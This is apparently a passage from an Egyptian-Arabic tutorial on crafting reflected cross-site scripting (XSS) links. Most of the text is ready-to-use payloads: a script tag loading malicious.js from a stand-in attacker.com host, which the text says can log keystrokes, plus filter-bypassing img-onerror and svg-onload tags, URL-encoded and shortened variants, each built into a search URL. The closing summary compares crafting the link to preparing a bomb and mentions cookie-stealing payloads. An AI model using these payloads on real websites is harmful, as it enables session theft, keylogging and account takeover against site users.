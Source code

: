 ##### **3. Payload لتحميل سكربت خارجي:**
```html
<script src="attacker.com/malicious.js"></script>
```
- الرابط:
  ```
  example.com/search?query=<script src="attacker.com/malicious.js"></script>
  ```
- ده بيحمل سكربت من موقعك يقدر يعمل حاجات زي تسجيل ضربات المفاتيح.

##### **4. Payload لتجاوز الفلاتر:**
لو الموقع بيمنع `<script>`، جرب أكواد تانية:
```html
<img src=x onerror=alert('XSS')>
```
- الرابط:
  ```
  example.com/search?query=<img src=x onerror=alert('XSS')>
  ```

أو:
```html
<svg onload=alert('XSS')>
```
- الرابط:
  ```
  example.com/search?query=<svg onload=alert('XSS')>
  ```

##### **5. Payload مشفر (Encoded):**
لو الموقع بيعمل Encode لبعض الحروف، استخدم URL Encoding عشان تخفي الكود:
- Payload عادي:
  ```html
  <script>alert('XSS')</script>
  ```
- Payload بعد الـ Encoding:
  ```
  %3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E
  ```
- الرابط:
  ```
  example.com/search?query=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E
  ```

##### **6. Payload مختصر للـ URLs الطويلة:**
لو الـ URL محدود بالطول، استخدم Payload صغير:
```html
<svg/onload=alert(1)>
```
- الرابط:
  ```
  example.com/search?query=<svg/onload=alert(1)>
  ```

---

**خلاصة بالعامية:**
تصميم الرابط زي ما تكون بتحضّر قنبلة. لازم تختار الـ Payload المناسب (زي Alert بسيط أو سكربت يسرق الكوكيز)، ولو الموقع حاطط حماية، تستخدم حاجات ذكية زي الـ Encoding أو أكواد من غير `<script>`.

---